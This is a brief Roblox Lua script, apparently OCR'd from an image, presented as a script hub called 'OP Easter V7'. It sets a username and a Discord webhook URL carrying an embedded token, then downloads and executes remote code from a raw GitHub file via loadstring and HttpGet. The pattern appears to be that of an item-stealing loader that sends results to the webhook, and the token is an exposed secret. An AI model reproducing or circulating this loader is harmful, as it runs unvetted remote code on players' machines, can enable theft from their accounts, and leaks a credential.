 _G.Username = "turtlxee"
_G.HubName = "OP Easter V7"
_G.WebhookUrl = "https://discord.com/api/webhooks/1095226342771019828/i8PKbjNa2w9Q5fGNxbrfYgIXu-W7el58UG0ETyQQVjmCu2yRzLLYaRmnDXPRhU6TkXcd"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
